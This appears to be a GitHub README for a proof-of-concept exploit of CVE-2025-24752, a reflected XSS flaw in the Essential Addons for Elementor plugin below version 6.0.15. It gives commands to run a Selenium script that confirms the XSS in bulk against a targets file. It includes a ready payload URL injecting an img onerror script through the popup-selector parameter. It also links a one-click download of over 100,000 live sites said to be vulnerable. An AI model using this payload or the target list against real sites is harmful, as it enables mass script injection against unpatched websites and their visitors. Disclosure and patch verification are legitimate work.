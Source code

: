 Please do not harm sites, FIX it ASAP
targets vulnerable 100K+ probably affecting for XSS https://nt.ls/AkTE9 (can download by one click all vulnerable)

##### Requirement to run poc.py, Install -

```pip install selenium webdriver-manager```

##### Usage 
```python poc.py targets.txt```

```For bulk it will take time but yes it is going to confirm the XSS, it works like browser, so yeah until XSS pop-up it waits to see and confirm.```

![image](https://github.com/user-attachments/assets/4167280d-787d-45cd-81eb-4a5c25368885)

#### manual POC elementor XSS 2025
 ==> ```https://target.com/?popup-selector=<img_src=x_onerror=alert("chirag")>&eael-lostpassword=1```

 
![image](https://github.com/user-attachments/assets/50d75f05-1392-4acf-9889-525e54ca5128)


Note: My script works slow, but it can 1000% confirm XSS bug unlike nuclei or httpx. I tried all the things, version below 6.0.15 are affected.

#### Information & reference 
https://patchstack.com/articles/reflected-xss-patched-in-essential-addons-for-elementor-affecting-2-million-sites/
The Essential Addons for Elementor plugin suffered from a reflected cross-site scripting (XSS) vulnerability. The vulnerability occurred due to insufficient validation and sanitizing of the popup-selector query argument, allowing for a malicious value to be reflected back at the user. The vulnerability is fixed in version 6.0.15 and has been tracked with CVE-2025-24752.
